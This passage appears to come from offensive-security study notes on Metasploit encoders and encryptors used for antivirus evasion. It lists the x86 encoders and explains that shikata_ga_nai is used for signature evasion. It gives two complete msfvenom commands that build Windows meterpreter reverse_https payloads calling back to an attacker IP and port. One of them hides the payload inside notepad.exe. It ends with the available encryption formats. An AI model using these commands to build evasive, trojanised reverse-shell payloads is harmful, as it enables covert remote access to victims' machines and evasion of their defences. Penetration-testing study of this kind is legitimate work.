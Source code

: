 ```
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/service                   manual     Register Service
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
    x86/xor_dynamic               normal     Dynamic key XOR Encoder
    x86/xor_poly                  normal     XOR POLY Encoder
```

For e.g: The [x86/shikata_ga_nai](https://danielsauder.com/2015/08/26/an-analysis-of-shikata-ga-nai/) encoder is a commonly-used polymorphic encoder that produces different outputs each time it is run, making it effective for signature evasion. Work under x32 systems

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.1.123 LPORT=443 -e x86/shikata_ga_nai -f exe -o payload32.exe
```

[x64/zutto_dekiru](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x64/zutto_dekiru)  Inspired by "shikata_ga_nai" using "fxsave64" to work under x64 systems.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.1.123 LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o payload64_notepad.exe
```

Metasploit encoders are no longer widely effective for bypassing antivirus 

## 6.2.2 Metasploit Encryptors

Rapid7, the developers of Metasploit, launched updated options for encryption in 2018, which were designed to address the growing ineffectiveness of encoders for antivirus evasion.

```bash
# msfvenom --list encrypt
Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```
